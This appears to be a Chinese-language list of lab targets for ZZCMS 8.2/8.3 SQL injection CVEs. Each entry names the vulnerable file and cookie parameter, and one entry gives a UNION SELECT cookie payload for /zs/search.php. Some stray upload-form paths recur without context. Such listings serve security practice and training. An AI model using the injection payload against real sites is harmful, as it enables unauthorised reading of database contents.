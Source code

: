 

## CVE-2019-1010153 zzcms8.3注入

*靶标介绍：*

ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中zs/zs.php存在sql注入



## CVE-2018-9309 zzcms8.2注入

*靶标介绍：*

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.2中在dl/dl_sendsms.php存在sql注入漏洞

/uploadimg_form.php?noshuiyin=1&imgid=2

image/jpeg

## CVE-2018-18792 zzcms8.3注入

*靶标介绍：*

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中zs/zs_list.php中，Cookie的pxzs参数存在SQL注入漏洞

/uploadimg_form.php?noshuiyin=1&imgid=2

image/jpeg

## CVE-2018-18791 zzcms8.3注入 

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中zs/search.php中，Cookie的pxzs参数存在SQL注入漏洞



/zs/search.php

post:

```
Cookie: zzcmscpid=1,1) union%0aselect%0a1,user(),version(;
```

/uploadimg_form.php?noshuiyin=1&imgid=2

image/jpeg

## CVE-2018-18787 zzcms8.3注入

*靶标介绍：*

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中zs/zs.php中，Cookie的pxzs参数存在SQL注入漏洞
